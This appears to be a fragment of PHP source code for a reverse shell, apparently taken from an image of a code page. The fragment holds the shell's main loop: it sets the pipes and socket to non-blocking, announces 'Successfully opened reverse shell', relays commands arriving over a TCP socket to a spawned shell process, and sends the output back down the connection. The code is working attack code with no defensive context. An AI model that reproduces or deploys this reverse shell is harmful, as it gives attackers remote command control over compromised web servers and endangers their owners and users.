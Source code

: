 ```php
// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
```
